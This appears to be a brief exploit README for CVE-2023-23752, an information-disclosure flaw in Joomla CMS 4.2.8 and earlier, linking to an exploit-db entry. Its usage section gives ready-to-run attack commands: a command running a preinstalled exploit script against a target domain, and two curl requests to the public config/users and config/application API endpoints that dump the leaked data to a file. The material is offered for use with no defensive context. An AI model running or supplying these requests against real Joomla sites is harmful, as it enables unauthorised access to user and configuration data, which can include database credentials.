 # Joomla CMS <= 4.2.8 CVE-2023-23752 Information Disclosure

## Link: https://www.exploit-db.com/exploits/51334

## Usage:

 - exploit.rb http://DOMAIN.LOCAL (Run the preinstalled exploit from Kali Linux)

 - curl http://DOMAIN.LOCAL/api/index.php/v1/config/users?public=true -o vuln.json

 - curl http://DOMAIN.LOCAL/api/index.php/v1/config/application?public=true -o vuln.json (Run the exploit manually with cURL)
